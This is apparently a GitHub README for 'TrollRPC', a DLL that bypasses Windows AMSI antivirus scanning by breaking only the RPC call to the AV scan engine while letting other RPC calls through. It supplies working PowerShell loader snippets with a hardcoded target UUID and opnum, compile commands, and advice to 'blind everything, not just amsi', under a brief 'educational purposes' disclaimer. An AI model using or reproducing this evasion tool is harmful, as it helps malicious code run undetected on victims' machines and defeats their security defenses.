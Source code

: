 # TrollRPC
So what is TrollRPC? Its a library to blind RPC calls based on UUID and OPNUM
![Image](https://github.com/user-attachments/assets/e0fb9e17-def8-4627-847f-7bc60449115a)
<br/> 
https://github.com/andreisss/Ghosting-AMSI released a amsi bypass by breaking NdrClientCall3 which means every subsequent RPC call (eg. some name resolution uses RPC thats why web requests to github fail) breaks which kind of makes the technique obsolete. This particular dll will only break the specific RPC call to the AV scan engine, allowing all other RPC calls through. This means you can bypass amsi for **both powershell/clr** and then continue running commands that require RPC (everything lol). 

## C#
```
[System.Reflection.Assembly]::LoadFile("C:\TrollRPC.dll") 
$UUID = "c503f532-443a-4c69-8300-ccd1fbdb3839"             # The UUID you are targetting
$Opnum = 0x5E                                              # The opnum you are targetting
$Opnum_break = 0x1F4                                       # Modify the opnum to an invalid value                   
[TrollRPC]::Blind($UUID, $Opnum, $Opnum_break)
```

## C++
```
#Use Visual Studio Command Prompt to compile first 
ml64 /c /nologo /Fo AsmStub.obj AsmStub.asm
cl /LD /O2 /MD /DNDEBUG /Zl /GS- /Gy /GF TrollRPC.cpp AsmStub.obj /link kernel32.lib user32.lib msvcrt.lib /OPT:REF /OPT:ICF /DEBUG:NONE /PDB:NONE

Alternatively, you can use the compiled dll.
C++ doesnt allow dynamic input of UUID and OPNUM, have to manually tweak the asmstub to put in the OPNUM you want and recompile (easiest way)
Running on powershell -> Right now its hardcoded for a specific AV engine ;)
Add-Type -MemberDefinition @"
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr LoadLibrary(string lpFileName);
"@ -Namespace Win32 -Name NativeMethods

[Win32.NativeMethods]::LoadLibrary("C:\TrollRPC.dll")
```

## Disclaimer
Should only be used for educational purposes!

## Upgrades
- Be creative, blind everything, not just amsi
- opsec not taken into consideration, its just functional








